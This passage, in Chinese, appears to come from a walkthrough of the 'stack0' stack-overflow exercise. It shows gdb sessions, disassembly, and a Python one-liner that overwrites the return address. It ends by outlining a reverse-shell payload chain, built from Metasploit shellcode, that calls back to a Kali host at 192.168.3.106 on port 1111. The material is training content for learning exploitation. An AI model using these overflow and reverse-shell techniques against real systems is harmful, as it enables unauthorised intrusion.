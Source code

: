 从而发现某个函数(main函数)的返回地址被改写成0x62626262(bbbb),从而产生溢出错误

或者：

```
gdb ./stack0
b 18
si
si

```

此时程序将执行到达main函数帧中的ret,再si将跳转到main_ret处,可通过以下验证

```
-------------output:--------------
15        } else {
16            printf("Try again?\n");
   0x08048427 <+51>:    movl   $0x8048529,(%esp)
   0x0804842e <+58>:    call   0x804832c <puts@plt>

17        }
18      }
   0x08048433 <+63>:    leave  
---Type <return> to continue, or q <return> to quit---
=> 0x08048434 <+64>:    ret    

End of assembler dump.
(gdb) si
0x62626262 in ?? ()
--------------end-----------------

```

同样可以发现main_ret被溢出为0x62626262(bbbb)

检验一下：

```
python -c 'print "a"*80+"bbcc"' | ./stack0
------------------output:--------------------
[New LWP 11928]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x63636262 in ?? ()
---------------------end---------------------

```

最后的"bbcc"由于在内存中依次由上到下存放在栈空间中（在一个栈单元中可放下4个字符，在一个栈单元中从左到右存放）,而栈中由上到下或一个栈单元中的从左到右都是由内存低地址到内存高地址排列，所以bbcc(0x62626363)被翻译成eip=0x63636262

为了溢出反弹一个shell，用msf生成shellcode,并构造成如下输入链来触发shellcode的执行

"a"*80+addr(jmp esp)+shellcode

其中shellcode代码由msf生成，输出为py版本，反弹ip设为kali的ip:192.168.3.106,port为1111
